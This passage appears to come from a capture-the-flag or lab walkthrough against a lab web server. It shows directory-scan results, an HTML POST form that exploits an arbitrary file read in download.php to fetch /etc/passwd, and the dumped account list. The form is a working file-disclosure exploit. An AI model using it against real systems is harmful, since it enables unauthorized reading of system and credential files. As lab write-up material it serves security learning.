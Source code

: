 =====================================================
https://192.168.1.144:15020/blog/admin/del.php (Status: 302)
https://192.168.1.144:15020/blog/admin/edit.php (Status: 302)
https://192.168.1.144:15020/blog/admin/footer.php (Status: 200)
https://192.168.1.144:15020/blog/admin/header.php (Status: 200)
https://192.168.1.144:15020/blog/admin/index.php/ (Status: 302)
https://192.168.1.144:15020/blog/admin/index.php (Status: 302)
https://192.168.1.144:15020/blog/admin/login.php (Status: 200)
https://192.168.1.144:15020/blog/admin/logout.php (Status: 302)
https://192.168.1.144:15020/blog/admin/new.php (Status: 302)
https://192.168.1.144:15020/blog/admin/uploads/ (Status: 200)
=====================================================

/blog/download.php seems interesting

so download.php, I kept playing with paramters on the URL, using get and manipulations in the address bar. I did this way too long before I realized, it wanted a POST. In creating a form for POST, I was able to pull the /etc/passwd file down with the following example:

<form method="post" action="https://192.168.1.144:15020/blog/download.php">
<input type="text" name="image" value="/etc/passwd" />
<input type="submit" value="Submit" />
</form>

Now that I can read files, I can start work on inspecting readable files from the system.

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
messagebus:x:105:109::/var/run/dbus:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
teo:x:1000:1000:teo,,,:/home/teo:/bin/bash
mysql:x:107:111:MySQL Server,,,:/nonexistent:/bin/false
proftpd:x:108:65534::/run/proftpd:/bin/false
ftp:x:109:65534::/srv/ftp:/bin/false
kevin:x:1001:1001::/home/kevin:
epmd:x:110:113::/var/run/epmd:/bin/false
ejabberd:x:111:114::/var/lib/ejabberd:/bin/sh
oana:x:1002:1002::/home/oana:
